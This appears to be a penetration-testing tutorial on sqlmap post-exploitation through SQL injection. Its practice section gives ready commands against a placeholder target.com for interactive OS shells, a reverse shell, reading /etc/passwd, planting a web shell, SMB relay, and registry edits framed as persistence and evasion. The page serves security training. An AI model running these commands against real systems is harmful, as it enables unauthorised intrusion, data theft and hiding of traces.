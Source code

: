 ```yaml
---
title: Master Shell Access Techniques Using Sqlmap
description: 'Learn to gain shell access via Sqlmap for post-exploitation tasks: OS
  command execution, file operations, registry manipulations, and more.'
keywords:
- Shell Access
- SQL Injection
- Sqlmap
- OS Command Execution
- File Operations
- Registry Manipulation
- Post-Exploitation
- SQL Shell
- OS Shell
- SMB Relay Techniques
---
```


# Shell Access

## Context

The objective of this guide is to teach you how to gain shell access using Sqlmap for various post-exploitation tasks. This guide assumes you are familiar with the basic mechanisms of shell access, the fundamentals of SQL injection, and command execution techniques.

## Theory

### SQL Shell Usage

The SQL Shell feature of Sqlmap provides an interactive environment for executing SQL queries on a database. By using the `--sql-shell` option, you can directly interact with the database, allowing you to issue queries to extract information or manipulate the underlying data structure.

### OS Shell Access

OS Shell Access enables you to execute operating system commands on the target server through a SQL injection vulnerability. The `--os-shell` option in Sqlmap facilitates this by using the SQL injection vulnerability to gain command-line access to the target's operating system.

### OS Pwn Exploitation

OS Pwn is a feature that uses automated methods to gain a reverse shell on the target system. By using the `--os-pwn` option, Sqlmap attempts to establish a reverse shell connection, which can be used for deeper system access and further exploration.

### OS Command Execution

OS Command Execution relies on the ability to run arbitrary operating system commands through the exploitation of a SQL injection vulnerability. Sqlmap's `--os-cmd` option allows specific OS commands to be executed, enabling various post-exploitation actions.

### File Read Operations

File Read Operations involve accessing and extracting file contents from the target system. With the `--file-read` parameter, Sqlmap can retrieve files, providing entry to sensitive data if files of interest are accessible.

### File Write Operations

File Write Operations allow you to write or modify files on the target system, potentially altering configurations or implanting malicious files. This is facilitated through the `--file-write` option, specifying the source file and its destination on the target.

### OS SMB Relay Techniques

SMB Relay Techniques exploit the SMB protocol to gain unauthorized access. Sqlmap's `--os-smbrelay` option allows you to leverage this method, potentially leading to privilege escalation on the target network.

### Registry Read Operations

Registry Read Operations involve reading Windows registry keys. This can reveal critical system information and configuration. Utilizing `--reg-read`, sensitive registry data can be extracted from the target system.

### Registry Add Operations

Registry Add Operations allow you to introduce new entries into the Windows registry. Using the `--reg-add` option, you can write new keys, aiding persistence mechanisms or configuration changes on the target machine.

### Registry Delete Operations

Registry Delete Operations involve removing entries from the Windows registry, which can be useful for defense evasion or removing traces. The `--reg-del` option facilitates the deletion of specific registry keys as part of post-exploitation efforts.

## Practice

### SQL Shell Usage

- Use the following command to launch an interactive SQL shell:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --sql-shell
  ```
- This allows you to execute SQL queries directly on the database.

### OS Shell Access

- Execute OS commands via SQL injection using:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --os-shell
  ```
- This provides direct command-line access to the target system.

### OS Pwn Exploitation

- Automatically establish a reverse shell with:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --os-pwn
  ```
- This automates reverse shell connection to the target.

### OS Command Execution

- Run specific OS commands using:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --os-cmd="ls -la"
  ```
- This executes the intended OS command and retrieves output.

### File Read Operations

- Extract file contents from the target system by:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --file-read=/etc/passwd
  ```
- This accesses and displays the contents of specified files.

### File Write Operations

- Modify or inject files on the target system:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --file-write=./local_file --file-dest=/var/www/html/shell.php
  ```
- This writes or modifies files at chosen locations.

### OS SMB Relay Techniques

- Exploit the SMB protocol to gain access with:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --os-smbrelay
  ```
- This approach uses SMB relaying to escalate privileges.

### Registry Read Operations

- Read registry keys from a Windows system:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --reg-read="HKEY_LOCAL_MACHINE\\Software\\MyKey"
  ```
- This retrieves and displays the values for the given registry key.

### Registry Add Operations

- Add entries to the registry using:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --reg-add="HKEY_LOCAL_MACHINE\\Software\\NewKey" --reg-value="sample_value"
  ```
- This introduces new keys into the Windows registry.

### Registry Delete Operations

- Delete registry keys to evade detection:
  ```bash
  sqlmap -u http://target.com/vulnerable_page.php --reg-del="HKEY_CURRENT_USER\\Software\\OldKey"
  ```
- This command removes unwanted registry entries from the Windows system.

## Tools

- **sqlmap**